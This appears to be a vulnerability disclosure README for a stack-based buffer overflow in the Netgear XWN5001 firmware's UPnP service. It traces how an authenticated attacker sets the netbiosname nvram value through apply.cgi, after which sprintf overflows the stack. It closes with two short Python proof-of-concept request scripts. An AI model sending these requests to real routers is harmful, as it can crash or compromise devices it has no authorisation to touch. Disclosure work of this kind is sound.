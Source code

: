 # netgear xwn5001 stack-based buffer overflow

## product information

vendor: netgear

product: xwn5001

version: 0.4.11

URL: https://www.netgear.com/support/product/xwn5001/#download



## vulnerability description

In netgear xwn5001 binary `/usr/sbin/upnp`, a stack-based buffer overflow can be found in function `device_xml`. Authenticated Attackers can control nvram value `netbiosname` to trigger the buffer overflow. `netbiosname`can be controlled by sending a malicious packet to firmware's http service via network packet.

## vulnerability analysis

### control `netbiosname`

In `/usr/sbin/uhttpd`, authenicated attacker can send a packet to `apply.cgi` with parameter `submit_flag=mulpppoe` and `device_name=<attacker control data>`. The following code shows the handler function of `mulppope`(In address 0x4355D8)

![image-20241017135414773](readme/image-20241017135414773.png) 

Now attacker can control `netbiosname` in nvram.

### exploit `netbiosname`

In `/usr/sbin/upnp`, when received an `GET` request, the following function `sub_4084c0` will be executed.

![image-20241017141429218](readme/image-20241017141429218.png)

In function `sub_4084c0`

function `device_xml` will be invoked if device_iterator(0) return is not NULL.

![image-20241017135825889](readme/image-20241017135825889.png)

The device_iterator(0) will always return value since the global `root_device` is written during the initialization.

![image-20241017140204926](readme/image-20241017140204926.png)

Now , in the function `device_xml`, the following code contains stack-based buffer overflow vulnerability. The device use `nvram_get` to retrive value stored in `netbiosname`, and use `sprintf` to write the value into stack, which will cause stack-based buffer overflow. 

![image-20241017140254623](readme/image-20241017140254623.png)

# exploit

For the first stage, controlling `netbiosname`

```python
import requests
IP = "192.168.1.1"
url = f"http://{IP}" + "/apply.cgi"

my_obj = {'submit_flag':'mulpppoe', 'device_name':'a'*0x1000}
x = requests.post(url, data=my_obj)
```



Second stage, triggering buffer overflow. Sending the following packet to UPNP service

```python
import requests
UPNP_PORT = 3074
IP = "192.168.1.1:{UPNP_PORT}"
url = f"http://{IP}" + "/allxml"

x = requests.get(url)
```

